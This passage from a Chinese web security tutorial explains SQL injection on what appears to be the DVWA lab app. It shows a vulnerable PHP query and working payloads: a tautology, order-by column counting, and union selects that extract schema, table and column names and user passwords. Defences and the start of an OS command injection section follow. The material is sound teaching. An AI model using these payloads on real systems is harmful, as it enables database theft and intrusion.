 ```text
$id = $_REQUEST[ 'id' ];
"SELECT first_name, last_name FROM users WHERE user_id = '$id';";
```

即 将获得id参数值，组合成SQL语句进行查询，那么就存在SQL注入的风险。

1. 攻击者通过将 id 参数设置为 1'or'1'='1 。'或' 语法使得 WHERE 条件一直成立，结果能查询出users表的所有数据。
2. id 设置为 1' order by n # ，要求结果以表的第n个字段排序，则当n = 1,2,3...依次执行，出现报错时假设n=5，即说明该表只有4个字段。
3. 通过以下 sql 能挖掘出更多的数据库信息。

```text
查询数据库用户，版本信息:
1' union select 1,concat(database(),version(),user()) #

查询所有数据库名字:
1' union select 1,schema_name from information_schema.schemata #

查询数据库的表名，0x64767761十六进制转字符为 dvwa:
' union select 1,table_name from information_schema.tables where table_schema=0x64767761 #

查询表的字段，0x7573657273十六进制转字符为 users:
' union select 1,column_name from information_schema.columns where table_name=0x7573657273 #

查看表的内容:
' union select user,password from users #
```

## 2.危害

- 获取数据库信息

- - 管理员后台用户名和密码
  - 获取其他数据库敏感信息：用户名、密码、手机号码、身份证、银行卡信息……
  - 整个数据库：脱裤



- 获取服务器权限
- 植入Webshell，获取服务器后门
- 读取服务器敏感文件

## 3.如何防御

- **严格限制Web应用的数据库的操作权限**，给此用户提供仅仅能够满足其工作的最低权限，从而最大限度的减少注入攻击对数据库的危害
- **后端代码检查输入的数据是否符合预期**，严格限制变量的类型，例如使用正则表达式进行一些匹配处理。
- **对进入数据库的特殊字符（’，”，，<，>，&，\*，; 等）进行转义处理，或编码转换**。基本上所有的后端语言都有对字符串进行转义处理的方法，比如 lodash 的 lodash._escapehtmlchar 库。
- **所有的查询语句建议使用数据库提供的参数化查询接口**，参数化的语句使用参数而不是将用户输入变量嵌入到 SQL 语句中，即不要直接拼接 SQL 语句。例如 Node.js 中的 mysqljs 库的 query 方法中的 ? 占位参数。

## 六、OS命令注入攻击

OS命令注入和SQL注入差不多，只不过SQL注入是针对数据库的，而OS命令注入是针对操作系统的。OS命令注入攻击指通过Web应用，执行非法的操作系统命令达到攻击的目的。只要在能调用Shell函数的地方就有存在被攻击的风险。倘若调用Shell时存在疏漏，就可以执行插入的非法命令。

